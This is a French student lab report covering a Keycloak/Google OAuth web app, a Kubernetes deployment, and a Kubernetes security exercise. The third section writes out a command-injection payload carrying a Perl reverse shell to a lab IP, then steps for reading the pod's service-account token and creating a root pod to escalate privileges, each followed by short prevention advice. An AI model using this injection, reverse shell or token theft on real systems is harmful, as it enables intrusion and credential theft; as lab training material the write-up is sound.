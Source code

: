 # Microservices2

Noms :

Fadia Allani
Angie Pineda

## TP1 : Service Web sécurisé

Pour le projet nous avons utilisé comme technologies java scrpit et react, pour la délégation d'autorisation et l'utilisation de l'api nous avons utilisé google. Pour la délégation d'autorisation nous avons utilisé un container docker avec keycloak.

Lorsque le projet est lancé et que l'on se rend sur la page d'accueil “localhost:5173/”, la première chose qui s'affiche est la page de connexion keycloak qui demande à l'utilisateur de se connecter, si un identifiant et un mot de passe valides sont saisis, un token est récupéré et il autorise la navigation sur le site web. En outre, il existe une api protégée par keycloak, et si le front-end doit accéder à cette ressource, il fera une requête du type :

```js
fetch('http://localhost:3000/protected', {
  headers: {
    Authorization: `Bearer ${keycloak.token}`
  }
})
```

Avec ce qui précède, le backend vérifie la demande et si le jeton est valide, il renvoie les données demandées, sinon il renvoie une erreur 401.

Une fois entrée, la page est redirigée vers la page de connexion dans laquelle se trouve un bouton permettant de se connecter avec Google. Lorsque l'on clique sur ce bouton, un appel est lancé au backend qui redirige la demande vers la page Google, où l'authentification de l'utilisateur est demandée et où il est ensuite demandé d'accepter les conditions générales d'utilisation. Avec les données ci-dessus, le backend appelle l'api google people où il demande des informations sur l'utilisateur (mail, nom et photo) qui sont récupérées par le frontend et affichées sur la page /info.


### Difficultés rencontrées.

**Google:** 

La configuration sur le site de google est confuse, car il y a beaucoup d'onglets, ce qui rend difficile de trouver la bonne page pour s'enregistrer, éditer et obtenir l'identifiant client pour l'application. Ensuite, pour la redirection des URI, il n'y a pas de documentation claire et il est donc difficile de l'intégrer. 

**Keycloak**

La configuration pour permettre l'authentification à partir de keycloak est confuse, car bien que la page donne un exemple d'utilisation avec javascript, elle n'indique pas clairement les termes, par exemple elle ne décrit pas la signification de realm, ce qui rend difficile la compréhension de ce que fait le code. Ensuite, comme dans le cas précédent, l'adresse des URLs n'est pas claire et nous avons eu des problèmes pour accéder à la page qui se lance de Keycloak. 

# Tp 2 Kubernetes Security

Nous avons commencé par créer un docker file pour chacun de nos services (frontend/backend) et nous avons ensuite mis à jour le docker-compose.yml 

![alt text](Screens/docker_compose.png)

Nous avons ensuite suivi toutes les étapes du tp jusqu'à l'étape du git compose push. 

Problème: Le push ne passe pas 

![alt text](Screens/Error-push.png)

Après avoir identifié et corrigé un problème d'indentation dans le fichier /etc/rancher/k3s/registries.yaml, nous avons réussi à pousser les images vers le registrey.

![alt text](Screens/frontend.png)

![alt text](Screens/backend.png)

Pour l'étape 4 du tp, nous avons commencé par créer un fichier myService.yaml regroupant les deux services frontend et backend

Problème: Après déploiement sur le cluster, nous n’avons pas pu accéder aux services. 

Message d’erreur rencontré lors de la tentative d’accès :

![alt text](Screens/Error.png)

Le message d’erreur indiquait que le domaine demandé n’était pas reconnu. Nous avons donc ajouté l’adresse frontend.infres.fr dans le fichier vite.config.js du frontend.

Après cette modification, les services sont accessibles et fonctionnent correctement : 

![alt text](Screens/ServiceOK.png)




















# TP 3 Kubernetes Security-2

On est passé par [reverse shell ](https://www.revshells.com/) pour generer un  reverse shell perl.

```markdown
google.com; perl -e 'use Socket;$i="10.134.35.160";$p=9001;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```


On a donc réussi à executer une commande à distance et on est maintenant dans un shell interactif à l'interieur du containeur mais pas en tant que root.        

# Find credentials: 
- ls /var/run/secrets/kubernetes.io/serviceaccount/
puis - cat /var/run/secrets/kubernetes.io/serviceaccount/token
pour afficher le token 


Une fois le token recupéré, on télécharge le binaire kubectl et on teste si on peut créer des pods avec ce token : YES 

![alt text](image.png)

## What could had been done to prevent this issue ?
- Approche Least Privilege lors de l’affectation des droits
- Désactiver le montage automatique du token dans les pods

# Escalate your privileges :

On crée un root pod qui utilise le même service account 

![alt text](root-pod.png)

## What could had been done to prevent this issue ?
Mettre en place des règles qui interdisent la création de pods avec ces paramètres risqués.

